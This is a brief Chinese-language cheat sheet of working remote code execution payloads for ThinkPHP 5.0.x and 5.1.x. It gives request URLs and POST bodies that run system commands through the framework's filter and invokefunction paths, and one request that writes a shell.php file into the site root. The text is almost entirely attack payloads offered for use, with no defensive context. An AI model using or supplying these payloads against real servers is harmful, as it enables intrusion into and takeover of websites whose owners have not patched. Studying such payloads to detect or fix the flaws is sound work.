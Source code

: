 ThinkPHP 5.0.0~5.0.23 RCE 漏洞
payload-1：
http://127.0.0.1/public/index.php?s=captcha

POST:
_method=__construct&filter[]=system&method=get&get[]=whoami

payload-2：
http://127.0.0.1/public/index.php?s=captcha

POST:
_method=__construct&filter[]=system&method=get&server[REQUEST_METHOD]=whoami

ThinkPHP 5.1 RCE

http://127.0.0.1/index.php?s=index/\think\template\driver\file/write?cacheFile=shell.php&content=%3C?php%20phpinfo();?%3E
执行之后会在根目录下写入shell.php ，内容是输出phpinfo();


5.1.x php版本 > 5.5

http://127.0.0.1/index.php?s=index/think\request/input?data[]=phpinfo()&filter=assert
http://127.0.0.1/index.php?s=index/\think\Container/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=1
http://127.0.0.1/index.php?s=index/\think\template\driver\file/write?cacheFile=shell.php&content=<?php%20phpinfo();?>


5.0.x php版本>=5.4
http://127.0.0.1/index.php?s=index/think\app/invokefunction&function=call_user_func_array&vars[0]=assert&vars[1][]=phpinfo()


